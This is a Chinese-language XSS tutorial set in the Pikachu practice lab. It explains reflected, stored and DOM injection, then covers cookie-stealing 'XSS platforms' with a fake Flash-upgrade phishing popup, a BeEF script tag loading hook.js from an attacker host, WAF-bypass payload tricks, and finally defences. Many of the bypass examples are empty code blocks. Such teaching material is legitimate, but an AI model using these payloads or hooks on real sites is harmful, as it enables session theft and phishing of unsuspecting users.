# **1 XSS详解**

## 1. **1 xss简介**

XSS攻击通常指的是通过利用[网页](https://baike.baidu.com/item/网页/99347?fromModule=lemma_inlink)开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括[Java](https://baike.baidu.com/item/Java/85979?fromModule=lemma_inlink)、 [VBScript](https://baike.baidu.com/item/VBScript/473081?fromModule=lemma_inlink)、[ActiveX](https://baike.baidu.com/item/ActiveX/529325?fromModule=lemma_inlink)、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

## **1.2 xss原理**

XSS漏洞产生的主要原因是由于程序对输入和输入的控制不够严格，导致构建的恶意代码输入后，在前端浏览的时候被当作有效的代码解析执行从而产生危害。

## **1.3 xss危害**

XSS主要有以下危害：

①　网络钓鱼，盗取各种用户账户。

②　窃取用户的cookies资料，从而获取用户隐私信息。

③　弹出广告页面，获取相关利益。

④　劫持用户会话，执行任意操作。

⑤　传播蠕虫病毒。

## **1.4 xss发生及挖掘**

### **1.4.1 xss发生过程**

例如：

```
<input type="text" name="address1" value="value1from">
```

当用户输入不是正常想要输入的内容，而是输入一串代码：

```
"/><script>alert(document.cookie)</script>
```

变成：

```
<input type="text" name="address1" value=""/><script>alert(document.cookie)</script>">
```

从而代码就会执行。

### **1.4.2 xss挖掘**

参考链接：https://www.cnblogs.com/csnd/p/11807592.html

#### **1.4.2.1黑盒测试**

通过查找一切用户可以输入并且控制输出到页面代码中的地方，例如：URL中的参数、URL链接、表单、输入框、评论区、个人信息修改等。

高风险：评论区、留言区、个人信息修改、订单信息等

中风险：站内信、通信、私信、反馈等。

低风险：搜索框、URL、图片属性等。

#### **1.4.2.2 白盒测试**

关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手。

PHP中常见的接收参数的方式有$_GET、$_POST、$_REQUEST等等，可以搜索所有接收参数的地方。然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。

也可以搜索类似echo这样的输出语句，跟踪输出的变量是从哪里来的，我们是否能控制，如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。

大多数程序会对接收参数封装在公共文件的函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等等。

## **1.5 xss分类**

根据xss漏洞的形式可分为：反射型、存储型、DOM型。

### **1.5.1 反射型**

#### **1.5.1.1 原理**

反射型XSS是将用户输入的内容作为代码让浏览器对其进行执行达到攻击的目的，一般需要引诱用户访问攻击者构建的URL。这种类型的攻击指发生在客户端上，并且需要访问带有恶意的参数特制的URL，所以也称之为非持久型XSS。

1) 攻击者构造了一个包含恶意字符串的URL并把它发给受害者。
2) 攻击者诱使受害者发起这个URL请求。
3) 网站在响应中引入这个恶意字符串。
4) 受害者浏览器执行响应中的恶意脚本，将受害者的cookies信息发给攻击者服务器。

 

#### **1.5.1.2攻击位置**

用户登录入口、网站搜索框等。

#### **1.5.1.3案例**

这里需要注意的是在这个提交框中存在限制长度数值，可以点击提交框然后右击检查，把数值调大就可以了。然后在输入框内输入\<script>alert(1)\</script>，然后点击提交。

 

 

当然这里其实可以自行观察URL，其实当什么都不输入的时候点击按钮会出现message=&submit=submit，而且message后面就是我们输入的内容，如果不想修改限制长度，而且限制长度刷新后就需要重新设置，那么可以直接在URL上修改，最后就是

```html
http://192.168.10.150/pikachu/vul/xss/xss_reflected_get.php?message=<script>alert(1)</script>&submit=submit
```

 

 

### **1.5.2 存储型**

#### **1.5.2.1 原理**

存储型XSS是将攻击脚本永远嵌入某一个页面中，，当用户访问的时候就会触发执行，从而用户受到相关的攻击。并且该类型的攻击主要发生在服务端，所有用户访问该页面都将受到相应的攻击，所以也称之为持久型XSS。

1) 攻击者利用网站的一个表单，将恶意字符串插入到网站数据库中。
2) 受害者向网站请求页面。
3) 网站在响应中引入恶意字符串，并把它发给受害者。
4) 受害者浏览器执行响应中的恶意脚本，并把受害者的cookies发给攻击者服务器。

#### **1.5.2.2 攻击位置**

论坛、博客、留言板、评论区等交互区。

#### **1.5.2.3案例**

在评论区输入\<script>alert(1)\</script>后，点击提交按钮。

 

当下次访问页面的时候就会自动执行，先执行再跳转至正常界面。

 

### **1.5.3 DOM型**

#### **1.5.3.1原理**

DOM全称Document Object Model,是一个与平台、编程语言无关的接口，它允许程序或脚本动态地访问和更新文档内容、结构和样式，处理后的结果能够成为显示页面的一部分。由于DOM型XSS不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，大部分属于反射型。

1) 攻击者构造一个包含恶意字符串的URL并发给受害者。
2) 攻击者诱使受害者发起这个URL请求。
3) 网站收到请求，但并没有在响应中引入该恶意字符串。
4) 受害者浏览器执行响应中的合法脚本，导致恶意脚本被插入到页面中。
5) 受害者浏览器执行插入到页面中的恶意脚本，将受害者的cookies信息发给攻击者服务器。

 

#### **1.5.3.2攻击位置**

基于DOM型的XSS漏洞是不需要与服务器端交互，它只发生在客户端处理数据的阶段。

#### **1.5.3.3案例**

在前端进行交互的时候对其进行闭合形成一个新的标签页，从而实现XSS的弹窗。

 

## **1.6 XSS攻击常用标签**

### **1.6.1** **\<scirpt>**

```html
示例：<scirpt>alert("xss");</script>
```

### **1.6.2** **\**

图片加载错误时触发

```html
示例：
```

鼠标指针移动到元素时触发

```html
示例：
```

鼠标指针移出时触发

```html
示例：
```


### **1.6.3 \<a>**

```html
示例：<a href="http://www.qq.com">qq</a>
```

```html
示例：<a href=javascript:alert('1')>test</a>
```


### 1.6.4 \<input>

按下按键时触发

```html
示例：<input type="text" onkeydown="alert(1)">
```

按下按键时触发

```html
示例：<input type="text" onkeypress="alert(1)">
```

松开按键式时触发

```html
示例：<input type="text" onkeyup="alert(1)">
```

竞争焦点，从而触发onblur事件

```html
示例：<input onblur=alert("xss") autofocus><input autofocus>
```


### 1.6.5 \<style>

```html
示例：<style οnlοad=alert(1)></style>
```


# **2 XSS平台**

## **2.1 XSS平台介绍**

由于XSS的各种payload语句构建起来比较复杂，所以一般情况下都是使用XSS平台自动生成的payload去获取相关的cookie。但是在XSS平台使用过程中也需要注意平台否存在其他的恶意代码，同时在你测试某一个网站的时候信息会发送到这个平台，平台有就会知道这个漏洞，所以还是需要注意。

至于XSS平台的话，网上有很多的XSS平台，这里就不推荐了。

## **2.2 XSS平台使用**

### **2.2.1 注册XSS平台**

当找到一个XSS平台后注册即可，当然也需要注意安全。

 

### **2.2.2 创建项目**

#### **2.2.2.1 创建项目名称**

点击左边的我的项目然后创建，在界面中输入项目名称，项目描述，然后下一步。

 

#### **2.2.2.2 创建项目类型**

选择你想要的项目类型然后勾选，勾选后点击配置。

需要注意的是在里面可能会存在一些无法使用的，多次获取如果获取不到可能存在配置问题或者拦截，也有可能就是这个项目无法使用。

 

#### **2.2.2.3 查看代码**

在右上角会有一个查看代码，进去就可以将生成的代码，插入到你挖掘到的XSS漏洞位置，后期当有人去访问的时候，XSS平台就会收到相关的信息。

 

 

当然XSS平台中还存在很多的可选择的配置项目，都可以进行测试。但是总之还是那句话，由于XSS平台是别人搭建的，当你去进行XSS测试的时候，不单单你获取到这个cookie值，XSS平台的管理人员也能获取到这个cookie值，所以需要注意，若是内部测试，尽量还是不要使用XSS平台，可以自己搭建一个XSS平台。若想测试公网上的位置，那么自己搭建XSS平台的话需要有一个公网地址。具体如何搭建XSS平台，百度上有很多。

#### **2.2.2.4 案例Flash弹窗钓鱼**

在项目中点击配置，找到Flash弹窗钓鱼，输入跳转的URL。这里输入的是百度的网址，注意URL需要输入完整，如：https://www.baidu.com。然后点击配置。

 

然后查看代码，把生成的代码复制，插入xss漏洞位置。

 

可以使用代码进行测试以下。使用pikachu中的反射型，如果使用存储型后面还需要删除，比较麻烦就使用反射型测试一下。可以看到一个flash的弹窗点击升级后会跳转到百度页面。

 

 

# **3 Beef工具**

## **3.1 Beef工具介绍**

BeEF是日前最强大的浏览器开源渗透测试框架,通过X55漏洞配合JS脚本和 Metasploit进行渗透; BeEF是基于Ruby语言编写的,并且支持图形化界面,操作简单。

新版的kail已经不自带beef工具了，需要自己下载。并且目前只支持macos和Linux系统。

## **3.2 Beef工具安装**

在安装Beef工具之前建议更新一下源，免得出现错误。

apt-get update

apt-get install beef-xss

当然在更新源的时候会比较慢，所以可以暂时去干别的事，等到更新好了，就可以安装beef工具了。

 

## **3.3 Beef工具启动**

启动：beef-xss

关闭：beef-xss-stop

 

## **3.4 BeefWEB登录**

登录地址：http://ip:3000/ui/panel。

账户密码：beef/beef

若在刚开始启动beef的时候设定了密码的话，那么密码就是你设置的那个登录密码，账户还是beef。

 

## **3.5 Beef案例测试**

### **3.5.1 插入构造代码**

将\<script src="http://192.168.10.20:3000/hook.js">\</script>代码插入pikache靶场的存储型xss中。

 

### **3.5.2 靶机上线**

通过从Beef工具上看，已经获取到靶机的相关信息了。

 

### **3.5.3 弹窗测试**

在"Brower"下面的"Hooked Domain"的create Alert Dialog（弹窗 ），在alert txt中输入你想要弹出来的内容，然后进行执行。

 

弹窗效果

 

# **4 WAF绕过**

## **4.1 大小写绕过**

html对于大小写不敏感，可以利用大小写混淆过去。

示例：

\<script>alert(“xss”);\</script>

替换：

\<ScRipt>ALeRt(“XSS”);\</sCRipT>

 

## **4.2 双写绕过**

在一些特定的情况下可能会存在某个关键字过滤，就可以尝试使用双写绕过。

示例：

```
$str2=str_replace("script","",$str);

$str3=str_replace("on","",$str2);

$str4=str_replace("src","",$str3);

$str5=str_replace("data","",$str4);

$str6=str_replace("href","",$str5);
```

上述中对on替换为空。

\<input oonnfocus="alert('xss');"> 

## **4.3 空格回车TAB绕过**

由于js通常是以分号为结尾，当解析到完整语句并且行尾存在换行符的情况下就可以忽略掉分号，若解析确定不是完整语句，则会继续处理，直到语句结束或出现分号。

### **4.3.1 空格绕过**

示例：

```html

```

替换：

```html

```

### **4.3.2 回车绕过**

示例：

```html

```

替换：

```html

```


### **4.3.3 TAB绕过**

示例：

```html

```

替换：

```html

```


## **4.4 注释绕过**

示例：

\<script>alert()\</script>

替换：

<scri<!--1-->pt>alert()</sc<!--1-->ript>

## **4.5 字符拼接**

利用eval：eval是Javascript内置函数，用于计算字符串表达式的值。

示例：

```html

```

利用top

示例：

\<script>top["al"+"ert"](`xss`);\</script>

## **4.6 编码绕过**

### **4.6.1** **Unicode编码绕过**

示例：

```html

```

替换：

```html

```


### **4.6.2 url 编码绕过**

示例：

```html

```

替换：

```html

```


### **4.6.3 ascii码绕过**

示例：

```html

```

替换：

```html

```


### **4.6.4** **base64绕过**

示例：

```html

```

替换：

```html

```


## **4.7 过滤URL绕过**

### **4.7.1 url编码绕过**

示例：

```html

```

替换：

```html

```


### **4.7.2 IP绕过**

#### **4.7.2.1 十进制**

示例：

```html

```

替换：

```html

```


#### **4.7.2.2 八进制**

示例：

```html

```

替换：

```html

```


## **4.8 过滤双引号、单引号**

如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号

示例：

```html

```

替换：

```html

```


## **4.9** **javascript伪协议绕过**

将javascript代码添加到客户端的方法是把它放置在伪协议说明符javascript:后的URL中。这个特殊的协议类型声明了URL的主体是任意的javascript代码，它由javascript的解释器运行。如果javascript:URL中的javascript代码含有多个语句，必须使用分号将这些语句分隔开。

javascript:var now = new Date(); "\<h1>The time is:\</h1>" + now;

javascript URL还可以含有只执行动作，但不返回值的javascript语句。javascript:alert("hello world!")

### **4.9.1 \<a>标签**

说明：

\<a>标签定义超链接，用于从一个页面链接到另一个页面。

\<a>元素最重要的属性是href属性,它指定链接的目标。

示例：

```html
<a href="javascript:alert(`xss`);">xss</a>
```


### **4.9.2 \标签**

说明：

\ 标签定义 HTML 页面中的图像

\ 标签有两个必需的属性：src 和 alt

示例：

//IE7以下

## **4.10 绕过大全链接**

链接：https://blog.csdn.net/qq_50854790/article/details/124297046

# **5 xss防御**

整体思路：对用户输入的内容及访问的URL进行过滤，对输出内容进行编码，简单来说就是将用户提交的所有内容都进行过滤，排除关键字，敏感内容，对URL的参数也进行一定的过滤，并且对动态输出到页面的内容进行html编码，转换为html实体，使其用户输入的恶意代码无法在浏览器中执行。

## **5.1 内容过滤**

对其内容进行过滤，可以分为白名单和黑名单过滤。

### **5.1.1 白名单过滤**

白名单过滤通过允许放行的内容进行过滤，这种情况下确实可以基本杜绝很多的XSS攻击，但是在现实环境中，可能会造成误拦截。

### **5.1.2 黑名单过滤**

黑名单过滤是对相关关键字进行拦截，黑名单输入可能杜绝绝大XSS攻击，但是依旧存在被绕过的可能。

## **5.2 http only属性**

在服务端中设置会话cookie的HTTP only属性，这样客户端JS脚本就不能获取cookie信息。

## **5.3 明确输入内容**

对用户输入的内容进行明确类型，如个人信息电话、数字、密码、邮箱地址等都位置都过滤一些不符合的内容。

## **5.4 输入内容长度控制**

对不可信的内容都应该进行长度限制，例如电话号码11位，那么就设置11位，这样虽然不能百分百防止XSS攻击，但是可以增加XSS攻击实现的难度。

## **5.5 安全措施**

添加验证码、开启相关防护软件、WAF软硬件。

 